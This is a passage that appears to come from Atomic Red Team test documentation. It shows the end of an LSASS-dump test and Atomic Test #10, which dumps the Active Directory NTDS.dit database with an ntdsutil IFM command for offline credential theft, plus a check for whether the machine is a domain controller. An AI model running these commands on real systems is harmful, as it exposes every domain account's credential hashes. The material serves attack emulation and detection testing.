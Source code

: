 ##### Get Prereq Commands:

```powershell
Write-Host "Create the lsass dump manually using the steps in the previous test (Dump LSASS.exe Memory using Windows Task Manager)"
```

<br/>
<br/>

## Atomic Test #10 - Dump Active Directory Database with NTDSUtil

This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped using NTDSUtil for offline credential theft attacks. This
capability
uses the "IFM" or "Install From Media" backup functionality that allows Active Directory restoration or installation of
subsequent domain controllers without the need of network-based replication.

Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_folder | Path where resulting dump should be placed | Path | C:&#92;Windows&#92;Temp|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q
```

#### Dependencies:  Run with `command_prompt`!

##### Description: Target must be a Domain Controller

##### Check Prereq Commands:

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT 
```

##### Get Prereq Commands:

```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```
